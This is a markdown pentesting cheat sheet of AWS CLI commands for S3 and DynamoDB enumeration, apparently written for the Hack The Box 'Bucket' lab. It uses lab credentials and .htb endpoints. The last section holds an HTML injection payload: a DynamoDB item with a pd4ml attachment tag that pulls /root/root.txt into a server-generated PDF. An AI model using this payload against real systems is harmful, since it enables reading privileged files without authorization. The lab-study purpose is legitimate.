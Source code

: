 ```yaml
---
icon: aws
---
```


# AWS

<details>

<summary><mark style="color:orange;"><strong><code>aws-cli</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:red;">**`Set it up remotely`**</mark>

{% code title="Set the ID" overflow="wrap" %}
```sh
aws configure set aws_access_key_id health
```
{% endcode %}

{% code title="Set the key" overflow="wrap" %}
```sh
aws configure set aws_secret_access_key 444af250749d
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">**`Enumeration`**</mark>

{% code title="List the buckets romotetly" overflow="wrap" %}
```sh
aws s3 ls --endpoint-url http://s3.bucket.htb/
```
{% endcode %}

{% code title="List buckets locally" overflow="wrap" %}
```sh
aws s3 ls s3://BUCKET_Name/
```
{% endcode %}

{% code title="List the bucket's content" overflow="wrap" %}
```sh
aws s3 ls s3://adserver --endpoint-url http://s3.bucket.htb/
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
{% code title="Upload a file" overflow="wrap" %}
```sh
aws s3 cp FILE_NAME s3://BUCKET_NAME/
```
{% endcode %}

{% code title="Upload it and make it public" overflow="wrap" %}
```sh
aws s3 cp tokyo s3://adserver/ --endpoint-url http://s3.bucket.htb --acl public-read
```
{% endcode %}
{% endhint %}

{% code title="Remove a file" overflow="wrap" %}
```sh
aws s3 rm s3://Bucket_Name/FILE_NAME
```
{% endcode %}

</details>



<details>

<summary><mark style="color:orange;"><strong><code>Dynamodb</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:purple;">**Set the**</mark> <mark style="color:orange;">**`Dynamodb`**</mark> <mark style="color:purple;">**instance**</mark>

{% code title="Set the ID" overflow="wrap" %}
```sh
export AWS_ACCESS_KEY_ID=health
```
{% endcode %}

{% code title="Set the key" overflow="wrap" %}
```sh
export AWS_SECRET_ACCESS_KEY=444af250749d
```
{% endcode %}

{% code title="Set the region" overflow="wrap" %}
```sh
export AWS_DEFAULT_REGION=us-east-1
```
{% endcode %}

{% code title="Set the endpoint" overflow="wrap" %}
```sh
export AWS_ENDPOINT_URL=http://localhost:4566
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">**`Enumeration`**</mark>

{% code title="List the tables" overflow="wrap" %}
```sh
aws dynamodb list-tables --endpoint-url http://localhost:4566
```
{% endcode %}

{% code title="List the users" overflow="wrap" %}
```sh
aws dynamodb scan --table-name users --endpoint-url http://localhost:4566
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
{% code title="Create a table" overflow="wrap" %}
```sh
aws --endpoint-url http://s3.bucket.htb dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
[<mark style="color:purple;">**In this example in order to create a malicious PDF we need to meet a condition, that is triggering an alert on a DynamoDB, when that alert is triggered a PDF and HTML files will be generated by a PHP web-server**</mark>](#user-content-fn-1)[^1]

{% code title="Create the item + HTMLi" overflow="wrap" %}
```sh
aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src=\"/root/root.txt\" description=\"attachment sample\" icon=\"Paperclip\"/></html>"}}'
```
{% endcode %}
{% endhint %}

</details>

[^1]: Seem in Hack The Box Bucket
